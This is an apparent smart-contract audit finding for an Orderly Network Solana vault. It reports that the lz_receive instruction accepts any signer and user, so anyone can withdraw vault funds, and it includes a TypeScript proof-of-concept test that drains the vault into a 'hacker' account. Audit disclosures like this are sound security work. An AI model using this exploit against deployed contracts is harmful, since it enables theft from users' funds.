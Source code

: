 Immense Rouge Goose

High

# Any One Can Withdraw from the Vault When It has funds

### Summary

The [`lz_receive`](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/programs/solana-vault/src/instructions/oapp_instr/oapp_lz_receive.rs) instruction allows anyone to be able to withdraw from the vault 

### Root Cause

There are no validations on the either the [user_acccount](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/programs/solana-vault/src/instructions/oapp_instr/oapp_lz_receive.rs#L33) or the [signer](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/programs/solana-vault/src/instructions/oapp_instr/oapp_lz_receive.rs#L15)

### Internal pre-conditions

Exploit is Possible whenever there are funds present in the vault.

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

This gives any unpriviledged party access to the funds in the vault at any point in time.

### PoC

Add 
```typescript
let vault_balance_before = vaultBalance;
const hacker = await Keypair.generate();
await provider.connection.confirmTransaction(await provider.connection.requestAirdrop(hacker.publicKey, 10 * LAMPORTS_PER_SOL), "confirmed");


const hackerTokenAccount = await getAssociatedTokenAddressSync(USDC_MINT, hacker.publicKey, true, TOKEN_PROGRAM_ID);
await createAccount( // creates hacker token account
    provider.connection,
    hacker,
    USDC_MINT,
    hacker.publicKey,
    undefined,
    undefined,
    TOKEN_PROGRAM_ID
);
let hacker_balance_before = await getTokenBalance(provider.connection, hackerTokenAccount);

await program.methods
    .lzReceive({
        srcEid: ETHEREUM_EID,
        sender: Array.from(wallet.publicKey.toBytes()),
        nonce: new BN('1'),
        guid: guid,
        message: message,
        extraData: Buffer.from([])
    })
    .accounts({
        payer: hacker.publicKey,
        oappConfig: oappPda,
        peer: peerPda,
        user: hacker.publicKey,
        userDepositWallet: hackerTokenAccount,
        vaultDepositWallet: vaultDepositWallet.address,
        depositToken: USDC_MINT,
        tokenProgram: TOKEN_PROGRAM_ID,
        vaultAuthority: vaultAuthorityPda
    })
    .remainingAccounts([
        {
            pubkey: endpointProgram.programId,
            isWritable: true,
            isSigner: false,
        },
        {
            pubkey: oappPda, // signer and receiver
            isWritable: true,
            isSigner: false,
        },
        {
            pubkey: oappRegistryPda,
            isWritable: true,
            isSigner: false,
        },
        {
            pubkey: noncePda,
            isWritable: true,
            isSigner: false,
        },
        {
            pubkey: payloadHashPda,
            isWritable: true,
            isSigner: false,
        },
        {
            pubkey: endpointPda,
            isWritable: true,
            isSigner: false,
        },
        {
            pubkey: eventAuthorityPda,
            isWritable: true,
            isSigner: false,
        },
        {
            pubkey: endpointProgram.programId,
            isWritable: true,
            isSigner: false,
        },
    ])
    .signers([hacker])
    .rpc(confirmOptions)
let hacker_balance_after = await getTokenBalance(provider.connection, hackerTokenAccount);

// Check balance after lzReceive
vaultBalance = await getTokenBalance(provider.connection, vaultDepositWallet.address)
assert.equal(vaultBalance, 100, "Vault successfully drained by hacker(excluding fee)")

const hackerBalance = await getTokenBalance(provider.connection, hackerTokenAccount)
assert.equal(hacker_balance_after - hacker_balance_before, vault_balance_before - 100, "Hacker Wallet Succesfully received funds")

```
to [lzReceive test suite](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/tests/01_messaging.test.ts#L441)

### Mitigation

Validate Signer or User when lz_receive is called
